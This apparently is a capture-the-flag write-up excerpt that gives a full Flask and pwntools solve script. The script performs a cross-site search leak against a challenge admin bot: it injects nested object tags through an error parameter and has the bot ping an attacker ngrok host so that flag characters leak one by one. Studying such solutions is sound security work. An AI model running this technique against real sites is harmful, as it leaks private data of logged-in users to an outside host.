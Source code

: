 Here's the full code, it's pretty long and janky, but it works:

filename=app.py
```py
from flask import Flask, request
from pwn import remote
import time
app = Flask(__name__)

start = time.time()
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}"
seen = set(alphabet)

@app.route("/")
def index():
    return "Hello, World!"

@app.route("/attack-status")
def attack_status():
    msg = f"""<h2>It has been {time.time() - start} seconds since the attack started.</h2>
<h3>Characters seen so far:</h3>
<p>{"".join(sorted(seen))}</p>
<br>
<h3>Valid characters:</h3>
<p>{list(set(alphabet) - seen)}</p>    
"""
    return msg

@app.route("/ping")
def ping():
    global seen
    c = request.args.get("c", "")
    if c not in seen:
        seen.add(c)

    return "pong"

url = b"http://auth.supersus.corp/?error="
ngrok = "http://26d4-76-143-182-149.ngrok-free.app"
known = "ictf{"

payload = """<object data="http://mail.supersus.corp/emails/1?search=FLAG"><object data="NGROK/ping?c=GUESS"></object>"""

def urlencode(s):
    return "".join([f"%{ord(c):02x}" if c not in alphabet else c for c in s]).encode()

@app.route("/attack")
def attack():
    global start, seen
    start = time.time()
    seen = set()
    guess = request.args.get("known", known)
    
    for c in alphabet:
        r = remote("amogus-admin-bot.chal.imaginaryctf.org", 1337)
        payload_c = payload.replace("GUESS", c).replace("FLAG", guess + c).replace("NGROK", ngrok)
        print(c, url + payload_c.encode())
        r.sendline(url + urlencode(payload_c))
        r.close()
        time.sleep(0.5)
    
    return f"Attack started on {guess}. Check <a href='/attack-status'>attack status</a> for more info."
```